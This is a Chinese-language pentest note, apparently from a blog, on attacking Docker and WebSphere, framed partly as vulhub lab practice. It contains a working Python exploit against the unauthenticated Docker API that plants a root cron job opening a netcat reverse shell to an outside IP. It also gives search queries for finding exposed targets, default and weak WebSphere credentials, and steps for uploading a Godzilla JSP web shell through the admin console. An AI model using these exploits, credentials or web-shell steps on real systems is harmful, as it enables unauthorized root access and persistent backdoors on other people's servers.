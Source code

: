 容器安全漏洞

```plain
docker未授权访问漏洞-vulhub-exp.py
可以直接用脚本去跑，那就可以得到权限
语法："docker" && port="2375"

启动环境：
cd /vulhub-master/docker/unauthorized-rce
sudo docker-compose up -d

python脚本：
import docker
client = docker.DockerClient(base_url='http://192.168.233.128:2375/')
data = client.containers.run('alpine:latest', r'''sh -c "echo '* * * * * /usr/bin/nc 175.178.151.29 5566 -e /bin/sh' >> /tmp/etc/crontabs/root" ''', remove=True, volumes={'/etc': {'bind': '/tmp/etc', 'mode': 'rw'}})



安装docker：G:\python38\Scripts\pip.exe install docker
执行：G:\python38\python.exe docker-api.py

但是启动环境失败了。
```

![image.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230913134812419-189249474.png)

- 中间件-WebSphere-搜哈

```plain
WebSphere® Application Server 加速交付新应用程序和服务，它可以通过快速交付创新的应用程序来帮助企业提供丰富的用户体验从基于开放标准的丰 富的编程模型中进行选择，以便更好地协调项目需求与编程模型功能和开发人员技能。
端口：9080—web(http)应用访问端口、9443—web(https)应用访问端口、9060—管理后台访问端口、9043—管理控制台安全端口、8880—SOAP连接器端口等等。
漏洞探测在8880端口，后台是9060端口，解析是9080端口
需要自己搭建：
拉取镜像：docker pull iscrosales/websphere7
启动镜像：docker run -d -p 9060:9060 -p 9043:9043 -p 8880:8880 -p 9080:9080 iscrosales/websphere7
停止镜像：docker stop $(docker ps -aq)
```

![image.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230913134812634-36529441.png)

```plain
1、CVE-2015-7450 反序列化
工具搜哈：http://175.178.151.29:8880/
用到集成化工具：java反序列化终极检测工具
搜索语法："websphere" && server=="WebSphere Application Server/6.1"
```

![image.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230913134812751-285822198.png)

```plain
2、弱口令 上传拿Shell
-在6.x至7.0版本，后台登陆只需要输入admin作为用户标识，无需密码，即可登陆后台。
弱口令：
-websphere/ websphere
-system/ manager

访问：http://175.178.151.29:9060/ibm/console
登录：admin（默认账号）
上传：war马(用哥斯拉生成后门，jsp后门)

点击applications下的application types 在点击websphere enterprise applications，在这里页面中点击install
```
